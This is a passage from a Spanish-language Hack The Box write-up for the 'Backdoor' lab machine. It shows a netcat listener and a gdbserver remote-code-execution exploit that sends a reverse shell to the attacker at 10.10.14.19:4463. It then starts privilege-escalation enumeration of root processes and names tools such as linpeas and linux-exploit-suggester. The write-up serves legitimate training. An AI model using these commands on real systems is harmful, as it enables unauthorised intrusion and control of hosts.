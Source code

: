 Y ya tendríamos el archivo `rev.bin` (nuestro shellcode), el cual indica que cuando se ejecute envíe una **terminal de linux** hacia el puerto **4463** de la ip **10.10.14.19** (levantemos ese puerto):

```bash
❱ nc -lvp 4463
listening on [any] 4463 ...
```

Y listos, ejecutemos esta vaina:

```bash
❱ python3 gdbserver_exploit.py 10.10.11.125:1337 rev.bin
```

Pueda que fallé varias veces, solo hay que ser perseverantes yyyyyyyyyyyyewruiqjkl:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/backdoor/416bash_revSH_user_gdbserverRCE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

CONSEGUIR EJECUTAR COMANDOOOOOOOOOOOS REMOTAMENTEEEE! (: Gracias **7Rocky** :*

Hagamos linda y funcional la terminal:

* [Tener histórico de comandos, movezón en la terminal y ejecutar tranquilamente CTRL+C](https://lanzt.gitbook.io/cheatsheet-pentest/tty).

Ahora veamos como escalar o movernos de usuario :P

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Estando dentro y enumerando cositas manualmente no vemos nada así suuuper relevante, únicamente esta tarea cron (automatizada) junto a una que ya habíamos visto:

```bash
user@Backdoor:~$ ps auxwww
...
root         843  0.0  0.0   2608  1660 ?        Ss   16:46   0:00 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
root         844  0.0  0.0   2608  1760 ?        Ss   16:46   0:00 /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
...
```

Con la que finalmente no llegamos a ningún lado :P solo a [conocer este post](https://steflan-security.com/linux-privilege-escalation-exploiting-shell-sessions/).

Apoyados en herramientas como `LinEnum.sh` o `linpeas.sh` (para enumerar el sistema e identificar posibles cositas inquietantes) tenemos una bien interesante: [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester), ella busca exploits o CVEs relacionados con el kernel y software del sistema que probablemente hagan la máquina vulnerable :P

Descargamos el archivo y jugamos:

```bash
user@Backdoor:/tmp$ mkdir test; cd test  # entorno de trabajo
```
